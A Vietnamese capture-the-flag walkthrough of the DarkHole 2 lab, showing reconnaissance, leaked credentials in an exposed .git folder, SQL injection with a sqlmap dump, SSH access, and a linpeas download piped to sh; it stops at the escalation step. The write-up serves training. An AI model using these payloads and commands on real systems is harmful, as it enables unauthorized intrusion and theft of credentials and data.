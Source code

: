 ## Step 1
netdiscover để tìm ip của victim

![image](https://user-images.githubusercontent.com/97771705/225805841-85f266be-c64b-4b53-95a5-cc1f1f722dca.png)

tìm các port

![image](https://user-images.githubusercontent.com/97771705/225805936-100a2dcb-6c7e-488d-b179-b753690af67a.png)

Truy cập vào darkhole2 

![image](https://user-images.githubusercontent.com/97771705/225806006-ba48ed03-1338-4451-9d9e-6ce931973de8.png)

Sử dụng dirsearch, tìm được khá nhiều trang web

![image](https://user-images.githubusercontent.com/97771705/225806267-66d1a618-c75b-44f4-8de1-ed27f2f264c3.png)

Có trang login.php.... Nhưng k có register :)

![image](https://user-images.githubusercontent.com/97771705/225806877-a701701c-baa3-47f5-a213-3773d92756e4.png)

Ngoài ra còn có url /.git

![image](https://user-images.githubusercontent.com/97771705/225806957-42d1d0b9-36a9-4121-b816-45bbdb9ad6b2.png)

Down về coi thử 

> wget -r http://192.168.77.250/.git

![image](https://user-images.githubusercontent.com/97771705/225808080-cac03a26-8b51-40c0-8025-fc4148bee746.png)

Sử dụng lệnh git log để xem lịch sử các commit trong repository

![image](https://user-images.githubusercontent.com/97771705/225808243-257c40be-d48a-43ea-b38b-ed66c9237022.png)

Ta thấy ở lệnh thứ 2, author đã thêm login.php với default credentials

Sử dụng lệnh git diff để so sánh sự khác nhau giữa 2 commit, điền 1 tham số là hash của lệnh thứ 2 để mặc định so sánh nó với commit cuối cùng (muốn so sánh 2 commit thì điền tham số hash của từng lệnh)

> git diff a4d900a8d85e8938d3601f3cef113ee293028e10

Nhấn giữ arrow key down để đọc hết các phần bị thay đổi. Khí kéo đến trang login.php thì phát hiện infomation disclosure 

![image](https://user-images.githubusercontent.com/97771705/225810416-2e69a185-9fd3-4818-9d5b-4a47f412850b.png)

Đây chính là acc của trang login.php

Login thử, và boom !!!

![image](https://user-images.githubusercontent.com/97771705/225810568-da039043-7f20-4d31-a8e8-dcdea1b8eba0.png)

## Step 2
Tại bước này cứ nghĩ là có IDOR vì change id=2,3,4 ... đều được hết. Nhưng không có cái trang nào có thông tin nữa :(

Thử 1 paylaod đơn giản xem có bị dính SQLi không

> ' order by 7 -- -

Khi order by 7 thì trang bị lỗi :) -> dính SQLi rồi

![image](https://user-images.githubusercontent.com/97771705/225812296-1ef5d23e-aba7-42f5-af85-db087c621dea.png)

Sử dụng sqlmap để dò thôi :)

> sqlmap -u "http://192.168.77.250/dashboard.php?id=1" --cookie="PHPSESSID=mm3m2qe16hm964aoqlq4kdkfe7" --dump

(Dump sử dụng để truy xuất và lấy dữ liệu từ các bảng của cơ sở dữ liệu bằng cách thực hiện các truy vấn SQL thích hợp)

Database là mysql 

![image](https://user-images.githubusercontent.com/97771705/225816170-1f0cea10-8134-43c0-9e04-f274205db324.png)

Có 2 cách khai thác là UNION attack và time based

![image](https://user-images.githubusercontent.com/97771705/225816264-60bd7b1e-c82b-40f3-9e05-c3b3f1ae3f43.png)

Database có 2 table, table user không có gì đặc biệt

![image](https://user-images.githubusercontent.com/97771705/225816453-76f32182-3de2-4d07-9050-cf66475dde10.png)

Nhưng tables ssh lại có username và pass để ssh 

![image](https://user-images.githubusercontent.com/97771705/225816570-78f6e3a0-3cc4-427f-a1a1-d2ad1e0c1032.png)

Thử ssh

![image](https://user-images.githubusercontent.com/97771705/225816689-e22c661e-87a9-4b16-ac3b-d24c0b009d05.png)

Flag đầu: DarkHole{'This_is_the_life_man_better_than_a_cruise'}

![image](https://user-images.githubusercontent.com/97771705/225816888-e01d2566-1625-4aa0-b3e0-24dabf37afb3.png)

## Step 3
Sử dụng linpeas để check CVE. Command tại https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

>curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

Có 2 CVE.. thử từng cái một thôi :)

![image](https://user-images.githubusercontent.com/97771705/225817364-0d66ed5f-1b25-4608-b666-2b0a6aa667c0.png)


